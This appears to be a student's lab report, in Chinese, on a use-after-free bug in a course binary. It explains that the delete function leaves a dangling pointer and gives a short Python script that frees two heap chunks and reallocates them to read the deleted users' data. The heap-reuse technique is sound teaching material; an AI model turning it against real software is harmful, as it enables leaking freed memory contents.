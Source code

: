 ![alt text](img/3220103784-林子昕-lab3/image-8.png)

### Task3 Use After Free

> 找到 uaf/uaf 中的释放后使用漏洞，编写攻击脚本触发该漏洞；（10 points）

在 user_del 函数中存在释放后使用漏洞：当删除用户后，用户信息结构体的指针没有置空，导致在 user_show 函数中继续使用已释放的内存。

攻击思路：

1. 首先创建两个用户，每个用户的intro大小为32字节：
2. 删除这两个用户后，在堆上会有两个相邻的32字节的空闲块
3. 然后创建一个新用户，指定intro大小为96字节，96字节 = 32字节 × 3，这样新分配的intro会覆盖之前释放的两个32字节的块的空间，从而可能观察到之前释放的内存中的数据。

```python
# Create two users with same intro size
idx1 = AddUser(b"Anyaa", b"Rees", 32, b"!!!!!", b"*****")
idx2 = AddUser(b"Meave", b"Wily", 32, b"?????", b"#####")

# Delete both users
DeleteUser(idx1, b"Rees")
DeleteUser(idx2, b"Wily")

idx3 = AddUser(b"", b"pass", 96, b"", b"")

# Show the user to verify UAF
name, motto, intro = ShowUser(idx3, b"pass")
print(f"UAF result - Name: {name}, Motto: {motto}, Intro: {intro}")

p.interactive()
```

运行测试，如图，可以查看到已经删除的前两个用户的信息：
